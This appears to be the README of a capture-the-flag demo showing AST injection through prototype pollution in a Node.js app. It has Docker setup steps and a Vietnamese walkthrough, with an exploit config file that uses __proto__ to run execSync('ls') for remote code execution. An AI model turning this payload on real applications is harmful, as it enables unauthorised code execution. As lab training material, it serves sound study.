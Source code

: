 # AST-injection-ctf
Demo AST injection in Nodejs app. <br/>
Docker and docker-compose required!

###### Build nodejs app image
`docker build -t demo-ctf .`<br/>
Ignore all the red line while build image :)))

###### Up docker-compose
`docker-compose up -d`

###### Run app
- Go to localhost:3000
- Reload until everything work correctly

## Try to RCE ^^

### Idea
Lướt qua các chức năng của trang web có thể rút ra được những điều như sau:
- Trang web được sử dụng cho các chức năng thống kê, vẽ biểu đồ
- Có 3 model chính là ransom, ransomware và victim
- Truy cập vào đường dẫn của từng model để kiểm tra chức năng, thấy được rằng 2 model ransomware và victim có chức năng xem chi tiết
- Kiểm tra chi tiết của 2 model, thấy rằng victim chỉ có thể download thông tin, còn ransomware có thể upload cấu hình mới lên để thực hiện update, có khả năng tải lên một file để khai thác lỗ hổng bảo mật
Quan sát tiếp source code của trang web ở đúng chức năng upload file cấu hình ransomware:
- Chức năng update được comment lại để bảo trì
```
var config = parse(req.file.buffer.toString());
// await Ransomware.update(config, { where: { id: req.params.id } })  // database locked for maintenance
res.redirect('/ransomware/' + req.params.id);
```
- Nội dung file không được làm sạch trước khi thực thi ch

### Solutions
- Tạo file exploit với nội dung dưới đây và lưu lại
```
test = 'Hey universe'
      
[__proto__.someprop]
name = "somename"
value = "somevalue"
code = "process.mainModule.require('child_process').execSync('ls')"
```
- Vào trang chi tiết của 1 ransomware bất kỳ, upload file exploit vừa tạo lên
- Kiểm tra source của trang mới, thấy rằng có thuộc someprop ở các thẻ có giá trị là kết quả của câu lệnh 'ls' được inject ở trong file exloit
